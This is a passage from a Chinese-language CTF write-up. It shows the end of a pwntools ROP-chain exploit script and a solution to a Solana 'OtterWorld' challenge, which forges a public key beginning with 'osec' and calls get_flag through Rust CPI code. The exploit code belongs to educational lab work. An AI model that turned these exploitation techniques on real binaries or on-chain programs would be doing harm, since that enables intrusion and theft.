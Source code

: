 ```python
pay += p64(0x100)
pay += p64(libc_base+0x10dfc0) #read

pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x1)
pay += p64(libc_base+0x000000000002601f) #pop_rsi
pay += p64(0x404300)
pay += p64(libc_base+0x0000000000142c92) #pop_rdx
pay += p64(0x100)
pay += p64(libc_base+0x10e060) #write

p.sendline(pay)

p.sendline(p64(0x0061616161616161))

p.interactive()
```

### OtterWorld:

这道题比较直接，只有一个地方比较有用.在 `framework/chall/programs/chall/src/lib.rs` 里：

```rust
#[account(
    constraint = password.key().as_ref()[..4] == b"osec"[..]
)]
pub password: AccountInfo<'info>,
```

要解这道题，我们给server的`password`的public key必须要以`osec`开头。每个Solana的公钥都是base58编码的，我们可以从服务器里的记录里查看一些公钥的例子。我们可以随机选一个公钥并把他转换成十进制，然后把前四个数字转换成`osec`的十进制，也就是`111 115 101 99`。最后我们再把修改过的十进制编译回base58。（修改过的公钥例如：`8W4K4D8y1y7nXqNAYc3CtBMWj1dFDJRxrSbqffLTSg8u`）这将是我们发送给服务器的`password`

![](https://imgur.com/CPNEyzZ.png)

exp:

`framework-solve/solve/programs/solve/src/lib.rs`:

```rust
use anchor_lang::prelude::*;
use anchor_spl::token::Token;
declare_id!("osecio1111111111111111111111111111111111111");
#[program]
pub mod solve {
    use super::*;

    pub fn get_flag(ctx: Context<GetFlag>) -> Result<()> {
        let get_flag_acc = chall::cpi::accounts::GetFlag {
            flag:ctx.accounts.state.to_account_info(),
            password: ctx.accounts.password.to_account_info(),
            payer: ctx.accounts.payer.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
            rent: ctx.accounts.rent.to_account_info(),
        };
        let cpi_deposit = CpiContext::new(ctx.accounts.chall.to_account_info(), get_flag_acc);
        chall::cpi::get_flag(cpi_deposit)?;
        Ok(())
    }
}
#[derive(Accounts)]
pub struct GetFlag<'info> {
    #[account(mut)]
    pub state: AccountInfo<'info>,
    pub password: AccountInfo<'info>,
    #[account(mut)]
```